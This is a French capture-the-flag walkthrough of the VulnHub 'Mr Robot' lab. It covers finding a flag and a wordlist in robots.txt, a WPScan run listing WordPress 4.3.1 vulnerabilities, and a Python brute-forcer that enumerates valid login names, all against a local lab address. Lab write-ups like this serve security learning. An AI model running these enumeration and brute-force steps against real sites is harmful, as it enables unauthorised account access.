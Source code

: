 Le programme nous montre qu'un wordpress serait caché sur ce site.
Avant d'aller plus loin sur cette piste concentrons nous sur la présence d'un fichier robots.txt

```
&lt;pre&gt;User-agent: \*
fsocity.dic
key-1-of-3.txt&lt;/pre&gt;
```

Nous voici en présence de la première partie du flag ! Ainsi que d'un fichier .dic contenant plusieures centaines de milliers de lignes :

```

~/C/V/MrRobot01 ❯❯❯ wc -l fsocity.dic
858160 fsocity.dic

```

Ce fichier nous sera utile par la suite.
Nikto nous a remonté la présence d'un wordpress, afin d'obtenir des résultats plus probant nous pouvons utiliser wp-scan qui est un scanner spécialisé dans l'audit de site wordpress :

`` ~/H/W/wpscan ❯❯❯ ./wpscan.rb --url 192.168.56.101 ⏎ ******************************\_\_\_****************************** ** **\_**** **\_** \ \ / / ** \ / \_\_**| \ \ /\ / /| |**) | (\_** **\_ ** \_ \_ ** \ \/ \/ / | \_**/ \_** \ / **|/ _` | '_ \ \ /\ / | | \_**\_) | (**| (_| | | | | \/ \/ |_| |**\_**/ \_**|\__,_|_| |_| WordPress Security Scanner by the WPScan Team Version 2.9.1 Sponsored by Sucuri - https://sucuri.net @_WPScan_, @ethicalhack3r, @erwan*lr, pvdl, @\_FireFart* ******************************\_******************************** [+] URL: http://192.168.56.101/ [+] Started: Thu Sep 22 00:04:25 2016 [+] robots.txt available under: 'http://192.168.56.101/robots.txt' [+] Interesting header: SERVER: Apache [+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN [+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523 [+] XML-RPC Interface available under: http://192.168.56.101/xmlrpc.php [+] WordPress version 4.3.1 (Released on 2015-09-15) identified from advanced fingerprinting, rss generator, rdf generator, atom generator, links opml [!] 14 vulnerabilities identified from the version number .... ``

Les 14 vulnérabilités proposées par wpscan sont peut exploitables.
Par contre, wordpress 4.3.1 est sensible au bruteforce.

## Le Wordpress

### Trouver l'utilisateur

Rendons nous sur la page /wp-login.php
Celle ci nous demande une authentification, sur cette version de wordpress il est possible d'énumérer la liste des utilisateurs existant. En effet si le login d'un utilisateur existant est testé, et ce meme avec un mot de passe faux, le message d'erreur sera différent de celui d'un utilisateur n'existant pas.

En partant de ce fait, j'ai écrit un script python qui bruteforce la liste des utilisateurs existant sur le wordpress, le script en question est disponible ici.

```

~/H/W/W/WordpressLoginBruteforcer ❯❯❯ python2 script.py --url "http://192.168.56.101/wp-login.php" --false "Invalid username" --wordlist "/home/shoxx/CTF/VulnHub/MrRobot01/fsocity.dic" ⏎
Found a valid login with : Elliot

```
